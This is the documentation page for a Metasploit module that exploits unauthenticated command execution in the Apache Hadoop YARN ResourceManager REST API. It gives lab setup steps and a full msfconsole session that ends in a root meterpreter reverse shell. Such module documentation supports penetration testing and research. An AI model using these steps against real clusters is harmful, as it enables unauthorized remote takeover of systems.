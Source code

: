 ## Description

This module exploits an unauthenticated command execution vulnerability in Apache Hadoop through ResourceManager REST API.

## Vulnerable Application

**Vulnerable Application Link**

- docker

https://github.com/vulhub/vulhub/tree/master/hadoop/unauthorized-yarn

## Vulnerable Application Installation Setup.

Change dictory to `vulhub/hadoop/unauthorized-yarn`, and run `docker-compose up -d`


## Verification Steps

  Example steps in this format (is also in the PR):

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/linux/http/hadoop_unauth_exec```
  4. Do: ``set rhost x.x.x.x``
  5. Do: ``set rport 8088``
  6. Do: ``check``

``[+] 192.168.77.141:8088 The target is vulnerable.``

  7. Do: `set payload linux/x86/meterpreter/reverse_tcp`
  8. Do: ``exploit``
  9. You should get a shell.


## Scenarios

```
msf5 > use exploit/linux/http/hadoop_unauth_exec
msf5 exploit(linux/http/hadoop_unauth_exec) > show options

Module options (exploit/linux/http/hadoop_unauth_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                     yes       The target address
   RPORT    8088             yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(linux/http/hadoop_unauth_exec) > set rhost 192.168.77.141
rhost => 192.168.77.141
msf5 exploit(linux/http/hadoop_unauth_exec) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf5 exploit(linux/http/hadoop_unauth_exec) > show options

Module options (exploit/linux/http/hadoop_unauth_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST    192.168.77.141   yes       The target address
   RPORT    8088             yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(linux/http/hadoop_unauth_exec) > set lhost 192.168.77.141
lhost => 192.168.77.141
msf5 exploit(linux/http/hadoop_unauth_exec) > exploit

[*] Started reverse TCP handler on 192.168.77.141:4444
[*] Sending Command
[*] Command Stager progress - 100.00% done (763/763 bytes)
[*] Sending stage (853256 bytes) to 172.20.0.3
[*] Meterpreter session 1 opened (192.168.77.141:4444 -> 172.20.0.3:34138) at 2018-05-15 03:21:17 -0400

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
```
